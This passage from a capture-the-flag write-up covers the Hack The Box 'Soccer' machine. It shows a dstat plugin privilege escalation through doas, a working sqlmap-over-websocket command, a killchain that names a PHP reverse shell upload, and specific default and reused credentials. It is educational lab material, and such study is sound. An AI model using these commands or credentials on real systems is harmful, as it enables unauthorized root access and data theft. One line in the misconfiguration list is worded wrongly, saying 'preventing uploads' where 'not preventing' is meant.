 After exploring some of the other directories, the player user can write files dstat as part of the group ownership permissions. 

Use the gtfobins payload for SUDO access and write that script to the above directory. 

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat_xxx.py
```

When calling dstat, use name of the script after dstat_ and prefix it with `--`. To escalate the privileges using the doas command, 

```bash
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# whoami
root
```

And now we are root! 

## Reflection

A reflection of what was learned through this box. 

### Useful Commands

**SQLMap over Websockets**: `sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id": "*"}' --technique=B --risk 3 --level 5 --batch`

**Doas**: `doas -u root /usr/bin/dstat --xxx`

### Killchain Summary

1. Perform directory enumeration to find a Tiny File Manager application at soccer.htb/tiny with default credentials of `admin:admin@123`
2. Upload a PHP reverse shell in the uploads directory
3. As the www-data user, find another virtual host served by nginx at soc-player.soccer.htb
4. Identify a SQL injection vulnerability over the websocket connection at this new vhost
5. Use sqlmap to dump the accounts table in the soccer_db database and SSH to the server with the `player:PlayerOftheMatch2022` credentials
6. Find a privilege escalation vector with the doas command and allowing an unprivileged user to run dstat as root with no password

### Misconfigurations

Some misconfigurations on this host that led us to have root access:
- not changing default credentials for the file manager application
- preventing uploads of files that allow arbitrary code execution in PHP
- not performing input sanitization on data sent through the websocket
- reusing credentials for system accounts
- enabling a lower privileged user to execute a command as root that can lead to privelege escalation


[^htb-link]: <https://www.hackthebox.com/machines/soccer>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^sql-over-websockets]: <https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/dstat/>